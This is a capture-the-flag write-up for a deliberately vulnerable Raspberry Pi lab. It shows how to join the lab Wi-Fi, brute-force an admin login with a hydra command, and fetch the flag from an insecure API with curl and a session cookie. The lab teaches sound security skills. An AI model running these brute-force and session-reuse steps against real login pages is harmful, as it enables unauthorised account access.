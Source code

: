 # Web Weak Credentials - Write-Up

## Overview
**Challenge Name**: Web Weak Credentials  
**Difficulty**: Low  
**Category**: Web Security  
**Goal**: Exploit login and API vulnerabilities to retrieve a flag.

## What You’ll Need
- Browser or `curl`.
- Brute-force tool (e.g., `hydra` or `burp`.).
- UART-to-USB adapter (GPIO 4: RX, 6: Ground, 8: TX; 115200 baud).
- Terminal emulator (`minicom`)[optional].
- Enumeration Utility (e.g., `nmap`).
- Wi-Fi client (SSID: `DVRPI`, password: `dvrpiconnect`).

## Challenge Description
A web server (`http://192.168.4.1:8008`) hosts a PHP application with a login page vulnerable to brute force and an insecure API. Brute-force the login to access the API and retrieve the flag.

## How to Solve It
1. **Connect to Wi-Fi**:
   - Join SSID `DVRPI` (password: `dvrpiconnect`).
     
2. **Brute-Force Login**:
   
   - Visit `http://192.168.4.1:8008/login.php`.
   - Using `hydra`:
     
     ```bash
     hydra -l admin -P wordlist.txt 192.168.4.1:8008 http-post-form "/login.php:username=^USER^&password=^PASS^:Invalid credentials"
     ```
     - Username: `admin`.
       
4. **Exploit API**:
   - Access `/api/getflag` with session cookie:
     
     ```bash
     curl -b "PHPSESSID=your_session_id" http://192.168.4.1:8008/api/getflag
     ```
     - Retrieve: `flag{ ... }`.

## What You Learn
- Brute force attacks.
- API security weaknesses.
- Session management in web applications.

## Notes
- **Wi-Fi AP**: Static IP 192.168.4.1, DHCP for clients.
- Check `journalctl -u nginx` for logs.

## Resources
- **DVRPi Documentation**: `/challenges/7. Web Weak Credentials - Write-Up.md`.
  
---

**Author**: [Exploit Security Team](https://www.exploitsecurity.io)  
**License**: GPL V3.0  
**Repository**: [DVRPi GitHub](https://github.com/exploitsecurityio/DVRPi)  
**Last Updated**: May 25, 2025
